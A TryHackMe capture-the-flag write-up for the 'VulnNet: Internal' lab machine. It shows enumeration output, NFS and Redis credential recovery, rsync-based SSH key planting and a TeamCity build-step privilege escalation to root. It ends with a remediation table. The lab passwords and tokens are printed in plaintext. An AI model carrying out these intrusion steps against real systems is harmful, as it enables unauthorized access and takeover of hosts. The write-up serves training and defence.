# VulnNet: Internal — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.64.190.162 | **Attacker IP:** 192.168.131.193

## Machine info


## Summary

**VulnNet: Internal** is a TryHackMe machine built around a chain of small misconfigurations rather than a single exploit. An NFS export with no client restriction leaks a Redis configuration file containing its authentication password; authenticating to Redis reveals a flag and a base64-encoded credential pair for an rsync daemon that, once authenticated, grants read and write access to the box's home directories. Writing an SSH public key into sys-internal's authorized_keys through that same rsync access provides a shell on the host, where a root-owned TeamCity installation is found listening only on loopback. A world-readable catalina.out log leaks the TeamCity Super User authentication token, granting full administrator access to the web interface. From there, a build step configured to run on the TeamCity build agent — which executes as root — sets the SUID bit on bash, giving a full root shell.

**Attack chain:** NFS Export → Redis Password → Redis Auth & authlist Decode → Authenticated Rsync → SSH as sys-internal → TeamCity Super User Token → Build Step RCE → Root

## 1. Enumeration — Nmap & SMB

A full TCP port scan was run against the target:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.64.190.162

PORT      STATE    SERVICE     REASON         VERSION
22/tcp    open     ssh         syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 72:d4:bf:f9:7c:6b:ae:13:06:59:c6:be:5d:ba:d4:9d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDDPjlDOaEN1m/i48rCi1/tpRPPGNaebFpITo5Zy/jZ49EV9ALfz0hI/8pisE8yy8tO+luov+roERJVPOPEHAIMXWStGzYWbZsg/SYS+d7Xqjernn2N7+K9BUMn/nIZ4ThGe4r2cSLyrxdqpBTH6ZNo+vYww66Xg95pKyQE0uEI0rIHByVdJm8JIV/8n3xixsluwutmCvXrDiuz6ibJQ8yXMOdQEwdUEHf1XEBfRrcQmvHPb4i/ZlkC327Ktt4rFwl1LNYQeujz4OJW6k3kFpi3IMx7QFB7O1NOvnhqzsZpAxdet7EMDS8WRll62HSxLF+21IAaLWTjT+acXydSiHPx9GAVSexCnUpYwEIHKOrWAETRSTNVGEg16XmI1NDFpJpnKm9zA8qCgRo4iFdnKRjMU8aHqicwkK6IO9aUTOIfNB1O5TnHVaqT5HX/RPjtBhoYuLWE0Fkp+FNsAs2H8w6XN3C8/7xhOXTyPGlXnNLSzSeapRJrbVPVc3G5IZDxstc=
|   256 6a:95:3a:68:53:22:36:89:7e:57:0c:bf:1a:89:03:7a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFSOe1s4P373OhyV9Ca9WCTMd50tw9eqBc8zPCGp9BcKjg64ojv99RgxdbKl+HnYbzS9RBQnDIWLOooQ7iHiqbg=
|   256 ba:90:3e:19:2c:35:64:f7:50:c9:39:71:e4:52:9e:ed (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIhEkIvmD7b6Xzi4bd0o5jIs3WgumupHHOyCzOh+EXng
111/tcp   open     rpcbind     syn-ack ttl 62 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      35977/tcp   mountd
|   100005  1,2,3      43428/udp   mountd
|   100005  1,2,3      53165/tcp6  mountd
|   100005  1,2,3      57321/udp6  mountd
|   100021  1,3,4      34283/tcp6  nlockmgr
|   100021  1,3,4      36757/tcp   nlockmgr
|   100021  1,3,4      46135/udp   nlockmgr
|   100021  1,3,4      55928/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp   open     netbios-ssn syn-ack ttl 62 Samba smbd 4
445/tcp   open     netbios-ssn syn-ack ttl 62 Samba smbd 4
873/tcp   open     rsync       syn-ack ttl 62 (protocol version 31)
2049/tcp  open     nfs         syn-ack ttl 62 3-4 (RPC #100003)
6379/tcp  open     redis       syn-ack ttl 62 Redis key-value store
9090/tcp  filtered zeus-admin  no-response
35977/tcp open     mountd      syn-ack ttl 62 1-3 (RPC #100005)
36757/tcp open     nlockmgr    syn-ack ttl 62 1-4 (RPC #100021)
40117/tcp open     java-rmi    syn-ack ttl 62 Java RMI
45835/tcp open     mountd      syn-ack ttl 62 1-3 (RPC #100005)
59943/tcp open     mountd      syn-ack ttl 62 1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: -1s
| smb2-time: 
|   date: 2026-11-05T09:28:57
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 30368/tcp): CLEAN (Couldn't establish connection (ERROR))
|   Check 2 (port 54970/tcp): CLEAN (Couldn't establish connection (ERROR))
|   Check 3 (port 43769/udp): CLEAN (Couldn't receive bytes: ERROR)
|   Check 4 (port 7489/udp): CLEAN (Couldn't receive bytes: ERROR)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   <00>                 Flags: <unique><active>
|   <03>                 Flags: <unique><active>
|   <20>                 Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

`Samba` allows null sessions. `enum4linux` confirms this and enumerates the local users through RID cycling:

```
enum4linux 10.64.190.162

 =========================================( Target Information )=========================================

Target ........... 10.64.190.162
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

 ===========================( Enumerating Workgroup/Domain on 10.64.190.162 )===========================

[+] Got domain/workgroup name: WORKGROUP

 ===============================( Nbtstat Information for 10.64.190.162 )===============================

Looking up status of 10.64.190.162
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
                        <00> -         B <ACTIVE> 
                        <03> -         B <ACTIVE> 
                        <20> -         B <ACTIVE> 
        WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
        WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 ===================================( Session Check on 10.64.190.162 )===================================

[+] Server 10.64.190.162 allows sessions using username '', password ''

 ================================( Getting domain SID for 10.64.190.162 )================================

Domain Name: WORKGROUP
Domain Sid: (NULL SID)

[+] Can't determine if host is part of domain or part of a workgroup

 ==================================( OS information on 10.64.190.162 )==================================

[+] Got OS info for 10.64.190.162 from srvinfo: 
        IP-10-64-190-16Wk Sv PrQ Unx NT SNT ip-10-64-190-162 server (Samba, Ubuntu)
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03

 =================================( Share Enumeration on 10.64.190.162 )=================================

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shares          Disk      VulnNet Business Shares
        IPC$            IPC       IPC Service (ip-10-64-190-162 server (Samba, Ubuntu))

[+] Attempting to map shares on 10.64.190.162                                                                       
                                                                                                                    
//10.64.190.162/print$  Mapping: DENIED Listing: N/A Writing: N/A                                                   
//10.64.190.162/shares  Mapping: OK Listing: OK Writing: N/A
//10.64.190.162/IPC$    Mapping: N/A Listing: N/A Writing: N/A

 ===========================( Password Policy Information for 10.64.190.162 )===========================

[+] Attaching to 10.64.190.162 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] IP-10-64-190-162
        [+] Builtin

[+] Password Info for Domain: IP-10-64-190-162

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: 136 years 37 days 6 hours 21 minutes 
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: 136 years 37 days 6 hours 21 minutes 

[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 5

 ======================================( Groups on 10.64.190.162 )======================================

[+] Getting builtin groups:

[+]  Getting builtin group memberships:

[+]  Getting local groups:

[+]  Getting local group memberships:

[+]  Getting domain groups:

[+]  Getting domain group memberships:

 ==================( Users on 10.64.190.162 via RID cycling (RIDS: 500-550,1000-1050) )==================

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                         
                                                                                                                    
S-1-22-1-1000 Unix User\sys-internal (Local User)                                                                   
S-1-22-1-1001 Unix User\ssm-user (Local User)
S-1-22-1-1002 Unix User\ubuntu (Local User)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-5-21-4245091913-2933223906-3069956643 and logon username '', password ''

S-1-5-21-4245091913-2933223906-3069956643-501 IP-10-64-190-162\nobody (Local User)
S-1-5-21-4245091913-2933223906-3069956643-513 IP-10-64-190-162\None (Domain Group)

 ===============================( Getting printer info for 10.64.190.162 )===============================

No printers returned.
```

Three Unix users are confirmed: `sys-internal`, `ssm-user`, and `ubuntu`. The `shares` share is readable anonymously, so it was mounted with `smbclient`; browsing it shows two directories, `temp` and `data`, with `services.txt` inside `temp`:

```
smbclient //10.64.190.162/shares -N
cd temp
get services.txt
```



The `data` directory also holds `data.txt` and `business-req.txt`, two files with no bearing on the attack chain.

## 2. NFS Export Leaks the Redis Password

The `nmap` scan showed `mountd`/`nfs` running, so the exports were listed with `showmount`:

```
showmount -e 10.64.190.162
Export list for 10.64.190.162:
/opt/conf *
```

The `*` means the export has no client restriction. It was mounted locally without authentication:

```
mkdir /tmp/conf
sudo mount -t nfs 10.64.190.162:/opt/conf /tmp/conf -o nolock
```

The mounted directory contains a mix of generic `Ubuntu` configuration files, including `redis/redis.conf`:

```
cat /tmp/conf/redis/redis.conf | grep -i requirepass
requirepass "B65Hx562F@ggAZ@F"
```

## 3. Redis Authentication & the authlist Rsync Credentials

Port `6379/tcp` (`Redis`) required authentication before this point:

```
redis-cli -h 10.64.190.162
10.64.190.162:6379> INFO
NOAUTH Authentication required.
...
10.64.190.162:6379> KEYS *
(error) NOAUTH Authentication required.
```

With the password recovered from the `NFS` export, authentication succeeds:

```
redis-cli -h 10.64.190.162 -a 'B65Hx562F@ggAZ@F'
10.64.190.162:6379> KEYS *
1) "authlist"
2) "int"
3) "internal flag"
4) "tmp"
5) "marketlist"
```

The `internal flag` key is read next:



The `authlist` key is a `Redis` list containing four identical base64-encoded strings:

```
10.64.190.162:6379> LRANGE authlist 0 -1
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
4) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
```

Decoding it reveals credentials for the `rsync` daemon seen in the `nmap` scan:

```
echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
```

## 4. Authenticated Rsync — user.txt & SSH Access as sys-internal

Anonymous listing of the `rsync` daemon only showed one module:

```
rsync -av --list-only rsync://10.64.190.162/
files           Necessary home interaction
```

Authenticating to that same module with the `rsync-connect` credentials unlocks read access to the users' home directories, which anonymous access did not show:

```
rsync -av --list-only rsync-connect@10.64.190.162::files
Password: 
drwxr-xr-x          4,096 2026/11/05 04:21:36 .
drwxr-xr-x          4,096 2025/06/28 12:16:36 ssm-user
drwxr-xr-x          4,096 2021/02/06 07:49:29 sys-internal
...
-rw-------             38 2021/02/06 06:54:25 sys-internal/user.txt
```

`sys-internal/user.txt` was pulled directly:

```
rsync -av rsync-connect@10.64.190.162::files/sys-internal/user.txt .
```



Since the module also allows writes, an `SSH` key pair was generated locally and the public key was pushed straight into `sys-internal`'s `authorized_keys`:

```
ssh-keygen -t rsa -f internal_key -N ""
```

```
rsync -av internal_key.pub rsync-connect@10.64.190.162::files/sys-internal/.ssh/authorized_keys
Password: 
```

An `SSH` login with that key succeeds:



## 5. Local TeamCity Service — Leaking the Super User Token

Listing the filesystem root as `sys-internal` reveals a root-owned `/TeamCity` directory, a `JetBrains` CI/CD server install:

```
ls -la /
drwxr-xr-x  12 root root  4096 Feb  6  2021 TeamCity
```

```
ls -la TeamCity/
drwxr-xr-x  2 root root  4096 Feb  6  2021 bin
drwxr-xr-x 13 root root  4096 Nov  5 10:22 buildAgent
drwxr-xr-x  3 root root  4096 Nov  5 10:22 conf
drwxr-xr-x  5 root root  4096 Feb  6  2021 devPackage
drwxr-xr-x  2 root root  4096 Feb  6  2021 lib
drwxr-xr-x  2 root root  4096 Feb  6  2021 licenses
drwxr-xr-x  2 root root  4096 Nov  5 10:22 logs
...
```

Checking which ports are actually listening locally shows the `TeamCity` web UI bound only to loopback, unreachable from the `nmap` scan:

```
ss -tlnp
LISTEN      0           1                  [::ffff:127.0.0.1]:8105                         *:*                      
LISTEN      0           100                [::ffff:127.0.0.1]:8111                         *:*
```

An `SSH` local port forward exposes it to the attacker machine:



Browsing to `http://127.0.0.1:8111` shows `TeamCity` 2020.2.2 (build 85899) with no administrator account configured, offering a "Log in as a Super user" option that requires an authentication token:



`TeamCity` logs this token to `teamcity-server.log` on every server start, but that file returns `Permission denied` for `sys-internal`:

```
grep -ri "super user" logs/*.log
grep: logs/teamcity-server.log: Permission denied
```

That `*.log` glob doesn't match `catalina.out` (a `Tomcat` log with a different extension, also inside `TeamCity/logs/`), so a filesystem-wide search was run for the same string instead. It finds a match in `catalina.out`, which — unlike `teamcity-server.log` — is world-readable:

```
grep -r "Super user authentication token" / 2>/dev/null
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 9147814096826901381 (use empty username with the token as the password to access the server)
```

`TeamCity` generates a new token on every restart and appends it to the log, so the last occurrence in the file is the currently valid one. Using it as the password with an empty username on the Super user login form grants full administrator access:





Login succeeds, with one build agent already connected.

## 6. Privilege Escalation via TeamCity Build Step to Root

Since the entire `/TeamCity` directory is owned by `root`, the connected build agent runs as `root`: any build configuration created as Super user runs arbitrary commands as `root`. A new project, `Pwned`, was created manually (no VCS needed):





Inside it, a build configuration named `root` was created:



No repository is needed to run a single command, so the VCS Root step was skipped:



A single `Command Line` build step was added, with a custom script that sets the SUID bit on `bash`:





Running that build executes successfully on the `Default Agent`:



Back in the `SSH` session as `sys-internal`, the SUID bit is now set, giving a root-privileged shell:





## Root Cause & Remediation

| Issue | Fix |
|---|---|
| `NFS` export `/opt/conf` has no client restriction and exposes application config files, including `redis.conf` with its password in plaintext | Restrict `NFS` exports to trusted hosts/networks and never store credentials in exported directories |
| `Redis` is network-reachable and is used to store another service's (`rsync-connect`) credentials in plaintext | Bind `Redis` to `localhost` only and never store other services' credentials inside `Redis` |
| The authenticated `rsync` module grants read/write access to user home directories, including `.ssh/authorized_keys` | Restrict `rsync` module access with host-based ACLs, make it read-only, and never expose home directories through it |
| `TeamCity/logs/catalina.out` is world-readable and leaks the `Super user` authentication token on every server restart | Restrict `TeamCity` log file permissions to the service account only, and complete initial administrator setup immediately to disable `Super user` login |
| The `TeamCity` build agent runs as `root`, so any user with access to create a build configuration can execute arbitrary commands as `root` | Run the `TeamCity` server and build agent as a dedicated low-privilege account, never as `root` |
